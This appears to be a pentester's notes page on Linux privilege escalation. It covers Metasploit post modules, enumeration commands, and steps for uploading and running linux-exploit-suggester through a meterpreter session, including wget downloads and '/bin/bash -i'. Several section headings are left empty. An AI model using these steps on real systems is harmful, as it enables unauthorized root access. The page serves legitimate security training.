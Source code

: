 ```yaml
---
icon: linux
---
```


# Linux

## Compatibility issues

{% hint style="warning" %}
Another method to overcome compatibility issues is to obtain a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it [here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). If you want to download it via the command line, be careful not to download the github page instead of the raw script. You can use `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`.&#x20;
{% endhint %}

## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

## Enumeration

| Command                       | Description                                                                                                                                                                      |
| ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `getprivs`                    | see what privileges we have                                                                                                                                                      |
| <kbd>sysinfo</kbd>            | information about the system                                                                                                                                                     |
| `getuid`                      | Zero uid on linux is always the Root user                                                                                                                                        |
| <h4><code>sudo -l</code></h4> | The target system may be configured to allow users to run some (or all) commands with root privileges.                                                                           |
| <h4><code>Id</code></h4>      | <p>The <code>id</code> command will provide a general overview of the user’s privilege level and group memberships.</p><p><br></p>                                               |
| <h4><code>history</code></h4> | Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames. |

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**

{% stepper %}
{% step %}
### Opening temp directory

```bash
cd /tmp
```
{% endstep %}

{% step %}
### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  
```
{% endstep %}

{% step %}
### Opening shell&#x20;

```
meterpreter > shell
```
{% endstep %}

{% step %}
### Better shell

```
/bin/bash -i
```
{% endstep %}

{% step %}
### Give executable permissions

```bash
chmod +x <file>
```
{% endstep %}

{% step %}
### Execute

```bash
./file.sh
```
{% endstep %}

{% step %}
### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file
{% endstep %}
{% endstepper %}

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## LinPEAS&#x20;

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS" %}

&#x20;**Linuxprivchecker**\



{% embed url="https://github.com/linted/linuxprivchecker" %}

## Cron jobs

## SUID

## Weak Permisions

## SUDO Privileges


